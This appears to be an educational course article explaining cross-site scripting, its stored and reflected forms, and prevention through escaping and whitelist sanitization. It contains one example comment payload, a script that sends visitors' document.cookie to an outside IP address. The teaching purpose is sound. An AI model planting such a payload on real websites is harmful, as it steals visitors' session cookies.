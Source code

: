 # Cross Site Scripting

Author: [Tan Wang Leng](https://github.com/nus-oss/cs3281-website/tree/master/students/AY1617S2/tanWangLeng/TanWangLeng-Resume.md)

## Overview

Cross site scripting (XSS) is a vulnerability found in websites.

Text boxes are commonly used in forms in websites to ask the user for input. For
example, blog websites may provide a text box for visitors of the blog to enter comments.

However, are commenters limited to just typing in plain text? Some websites do not
check the input, thus commenters are able to use formatting HTML tags, such
as `<b>` for bolding and `<i>` for italicizing.

```html
I <b>like</b> your blog post!
```

becomes: I **like** your blog post!

The problem arises when the commenter starts using HTML for malicious purposes. For
example, HTML also supports `<script>`, for you to write JavaScript code on the
webpage as well.

```html
This is an innocent looking comment. <script>sendToServer("http://139.241.0.3/", document.cookie)</script>
```

While visitors of the blog will only see the non-script portion of the
comments (i.e. `This is an innocent looking comment.`), the browser will not
show the script portion of the comment, because it is legal HTML (you won't see
the tags like `<b>` and `<i>` when viewing webpages, so you definitely won't see
`<script>` on the webpage).

However, the browser is **actually executing the script**, without the visitor even being aware of what's going on.

This means that any malicious users (i.e. hackers) can write a script on their comments, such that everyone that visits the website will have the script executed. The script can be malicious in nature (in our example, the script sends the cookie of the visitor to the hacker).

Therefore, the hacker has managed to add additional malicious "functionality" to the website, that is not intended by the original website developer.

> Trivia: The term "Cross Site Scripting" is actually an old term. It originally describe an attack whereby hackers write malicious JavaScript scripts on a separate website, and injects it into the victim's website, in order to steal data from the victim's website/deface the page (hence "Cross Site"). Such attacks are no longer possible today, and the modern definition of "Cross Site Scripting" includes attacks that do not need to be on a separate website to work.

## Types of Cross Site Scripting

There are no standard definitions, but there are at least two different types of
XSS:

* Persistent XSS (also known as stored XSS) - The JavaScript code gets stored in
the web server. Example: Posting a malicious JavaScript code into a blog post as
a comment. The comment gets stored in the database, and the web browser of future visitors of the
webpage will retrieve the comment from the database, resulting in execution.

* Non-persistent XSS (also known as reflected XSS) - The JavaScript code is
inserted in URL/links of website that accepts URL parameters as input. The input
is therefore not stored in a database. For example:

`https://www.ecard.com/view-ecard.php?content=Happy%20Holidays<script>...</script>`

## Preventing Cross Site Scripting

There are a couple of ways to prevent your website against XSS. The two most
common ways are:

* Escaping String Input: By converting legal HTML characters to their
display-equivalent (e.g. `<` to `&lt;`), you prevent the symbol from being
parsed as HTML. It now even shows the content on the screen (in case the actual
intention is to actually show someone how to code for example).

* Whitelist Sanitization: By scanning and parsing the input as HTML, you can
remove undesired HTML elements, and only allowing certain whitelisted HTML
elements to be used (e.g. whitelisting only `<b>` and `<i>`).

## Resources

References:

1. http://projects.webappsec.org/f/WASC-TC-v2_0.pdf (page 32 & 33)
(Basic description of the XSS attack taken from here)
1. https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29#Stored_and_Reflected_XSS_Attacks
(Description of the two types of XSS attack taken from here)
1. http://blog.jeremiahgrossman.com/2006/07/origins-of-cross-site-scripting-xss.html
(Origin of the name "Cross Site Scripting")

Additional Reading Resources:

1. https://www.owasp.org/index.php/Testing_for_Cross_site_scripting
(How to test your website for XSS attacks)
1. https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet
(A list of possible preventions, which contains even more ways to protect your site from XSS attacks).
1. http://guides.rubyonrails.org/security.html#cross-site-scripting-xss
(In-depth discussion of how XSS attacks work, the different possible scenarios of such attacks, and possible preventive measures)
1. https://www.owasp.org/index.php/DOM_Based_XSS
(Discussion about DOM-based XSS attacks, a third possible type of XSS attacks)
1. https://excess-xss.com/
(Comprehensive coverage of *all* aspects of XSS)

Additional Resources:

1. https://github.com/OWASP/java-html-sanitizer (Java Sanitization framework)
(Implementation of HTML sanitization in Java)
1. https://github.com/rails/rails_xss
(Ruby on Rails plugin responsible for escaping String input in Ruby on Rails websites)
1. http://api.rubyonrails.org/classes/ActionView/Helpers/SanitizeHelper.html
(Ruby on Rails HTML sanitization function)
